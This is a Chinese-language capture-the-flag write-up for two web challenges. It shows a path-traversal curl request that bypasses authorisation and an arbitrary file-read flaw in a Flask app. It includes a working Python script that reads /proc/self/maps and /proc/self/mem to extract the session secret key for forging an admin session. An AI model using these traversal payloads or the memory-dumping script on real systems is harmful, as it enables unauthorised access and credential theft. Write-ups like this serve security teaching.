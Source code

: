 ## ezbypass

![image-20230101152108312](CatCtf.assets/image-20230101152108312.png)

在js里面发现是**华夏erp**

找了一下，挺多漏洞的，开始以为是sql注入拿密码，但是密码被加密了拿不到

然后想想就只能是**fastjson打rce**了，可惜自己不会**java**

后来想起来提示 **Flag 在 flag.html 下**

那直接未授权访问就好了

```bash
xlccccc@xl-pc:~$ curl http://223.112.5.156:62859/a.png/%2e%2e/flag.html
<!DOCTYPE html>
<html>
<head><meta charset="utf-8">
<meta content="webkit" name="renderer"/>
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate"/>
<meta content="no-cache" http-equiv="Pragma"/>
<meta http-equiv="Expires" content="0"/>
<meta content="width=device-width, initial-scale=1, user-scalable=1" name="viewport"/>
<title>EzBypass</title>
<link rel="shortcut icon" href="images/favicon.ico" type="image/x-icon"/>
<script src="js/jquery/jquery-1.12.4.min.js"></script>
<link rel="stylesheet" href="css/fonts/font-icons.min.css"><link rel="stylesheet" href="js/bootstrap/css/bootstrap.min.css">
<link rel="stylesheet" href="js/adminlte/css/AdminLTE.min.css">
<link rel="stylesheet" href="js/adminlte/css/skins/skin-blue-light2.css">
</head><body class="hold-transition ">
<h1>cyberpeace{de9adc3f629707fba4b1f5ec8f3236e6}</h1>
```

拿到flag

## catcat

```
http://223.112.5.156:50603/info?file=../app.py
```

存在任意文件读取漏洞

**app.py**

```python
import os
import uuid
from flask import Flask, request, session, render_template, Markup
from cat import cat

flag = ""
app = Flask(
     __name__,
 static_url_path='/', 
 static_folder='static' 
)
app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"
if os.path.isfile("/flag"):
 flag = cat("/flag")
 os.remove("/flag")

@app.route('/', methods=['GET'])
def index():
 detailtxt = os.listdir('./details/')
 cats_list = []
 for i in detailtxt:
    cats_list.append(i[:i.index('.')])
 
 return render_template("index.html", cats_list=cats_list, cat=cat)



@app.route('/info', methods=["GET", 'POST'])
def info():
 filename = "./details/" + request.args.get('file', "")
 start = request.args.get('start', "0")
 end = request.args.get('end', "0")
 name = request.args.get('file', "")[:request.args.get('file', "").index('.')]
 
 return render_template("detail.html", catname=name, info=cat(filename, start, end))
 


@app.route('/admin', methods=["GET"])
def admin_can_list_root():
 if session.get('admin') == 1:
    return flag
 else:
    session['admin'] = 0
 return "NoNoNo"



if __name__ == '__main__':
 app.run(host='0.0.0.0', debug=False, port=5637)
```

**cat.py**

```python
import os, sys, getopt


def cat(filename, start=0, end=0)->bytes:
 data = b''
 
 try:
    start = int(start)
    end = int(end)
 
 except:
    start=0
    end=0
 
 if filename != "" and os.access(filename, os.R_OK):
    f = open(filename, "rb")

    if start >= 0:
        f.seek(start)
        if end >= start and end != 0:
            data = f.read(end-start)
 
        else:
            data = f.read()
 
    else:
        data = f.read()
 
    f.close()
 
 else:
    data = ("File `%s` not exist or can not be read" % filename).encode()
 
 return data


if __name__ == '__main__':
 opts,args = getopt.getopt(sys.argv[1:],'-h-f:-s:-e:',['help','file=','start=','end='])
 fileName = ""
 start = 0
 end = 0
 
 for opt_name, opt_value in opts:
    if opt_name == '-h' or opt_name == '--help':
        print("[*] Help")
        print("-f --file File name")
        print("-s --start Start position")
        print("-e --end End position")
        print("[*] Example of reading /etc/passwd")
        print("python3 cat.py -f /etc/passwd")
        print("python3 cat.py --file /etc/passwd")
        print("python3 cat.py -f /etc/passwd -s 1")
        print("python3 cat.py -f /etc/passwd -e 5")
        print("python3 cat.py -f /etc/passwd -s 1 -e 5")
        exit()

    elif opt_name == '-f' or opt_name == '--file':
        fileName = opt_value
 
    elif opt_name == '-s' or opt_name == '--start':
        start = opt_value
 
    elif opt_name == '-e' or opt_name == '--end':
        end = opt_value

    if fileName != "":
        print(cat(fileName, start, end)) 
 
    else:
        print("No file to read")
```

有意思的点不多，就下面几种：

- `app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "") + "*abcdefgh"`以***abcdefgh**结尾？两种可能，第一爆破（没见过这种jwt），第二种就是告诉你它的标志性字符，让你可以正则匹配到
- **cat.py**在打开文件读取数据后关闭了，不会出现`os.remove()`掉了但是没有关闭文件，导致**flag**在`/proc/self/fd/x`中还保留，但是它给了一个`start end`，**给出的就一定是有用的**

非常规的就这两个地方，`render_template`在有固定模板的情况下是打不了**ssti**的

然后就会发现这两个点惊人的匹配了 **2022蓝帽杯的web题file_session**

这里就简单介绍一下，具体我会写一篇详细的有关`/proc`的文章

有的**密钥**在出题人的控制下是可以在`/proc/self/environ`中读到的，但本题读不到

所以只能读该程序的内存，从内存中读到**密钥**

所以首先读取`/proc/self/maps`，看一下内存的分布（截取一部分

```
5650e561c000-5650e561d000 r--p 00000000 fd:00 80743970 /usr/local/bin/python3.7
5650e561d000-5650e561e000 r-xp 00001000 fd:00 80743970 /usr/local/bin/python3.7
5650e561e000-5650e561f000 r--p 00002000 fd:00 80743970 /usr/local/bin/python3.7
5650e561f000-5650e5620000 r--p 00002000 fd:00 80743970 /usr/local/bin/python3.7
5650e5620000-5650e5621000 rw-p 00003000 fd:00 80743970 /usr/local/bin/python3.7
5650e6981000-5650e6982000 ---p 00000000 00:00 0 [heap]
5650e6982000-5650e6986000 rw-p 00000000 00:00 0 [heap]
7ff75b648000-7ff75b64c000 rw-p 00000000 00:00 0 
7ff75b657000-7ff75b65b000 rw-p 00000000 00:00 0 
7ff75b74c000-7ff75b750000 rw-p 00000000 00:00 0 
7ff75b80d000-7ff75b84d000 rw-p 00000000 00:00 0 
7ff75b852000-7ff75b856000 rw-p 00000000 00:00 0 
7ff75ba63000-7ff75baa7000 rw-p 00000000 00:00 0 
7ff75baa7000-7ff75baa9000 ---p 00000000 00:00 0 
7ff75baa9000-7ff75bbb2000 rw-p 00000000 00:00 0 
7ff75bbb3000-7ff75bc21000 rw-p 00000000 00:00 0 
7ff75bc24000-7ff75bc2c000 rw-p 00000000 00:00 0 
7ff75bc2f000-7ff75bd65000 rw-p 00000000 00:00 0 
7ff75bd66000-7ff75bde9000 rw-p 00000000 00:00 0 
7ff75bdec000-7ff75be30000 rw-p 00000000 00:00 0 
```

然后将16进制的内存转为十进制，利用`f.seek(start)`读内存

**直接读是读不到的，必须给出起始位置和长度**

![image-20230102142613272](CatCtf.assets/image-20230102142613272.png)

![image-20230102142622323](CatCtf.assets/image-20230102142622323.png)

可以看到是读到了内容的，接下来就是写个脚本

```python
import requests, re
url = "http://223.112.5.156:50603/"
maps_url = f"{url}/info?file=../../../../../proc/self/maps"
#需要匹配的堆地址
maps_reg = "([a-z0-9]{12}-[a-z0-9]{12}) rw.*?00000000 00:00 0"
#从/proc/self/maps中匹配堆地址位置
maps = re.findall(maps_reg, requests.get(maps_url).text)
# print(maps)
#从匹配到的结果一个个遍历读取
for m in maps:
 start, end = m.split("-")[0], m.split("-")[1]
 start, end = str(int(start, 16)), str(int(end, 16))
 read_url = f"{url}/info?file=../../../../../proc/self/mem&start={start}&end={end}"
 s = requests.get(read_url).content
 print(s)
 # 匹配的secret_key格式
 rt = re.findall(b"[a-z0-9]{8}[a-z0-9]{4}[a-z0-9]{4}[a-z0-9]{4}[a-z0-9]{12}\*abcdefgh", s)
 if rt:
    print(rt)
    print(start + '  ' + end)
    break
```

运行就可得到**SECRET_KEY**，伪造**session**便可拿到flag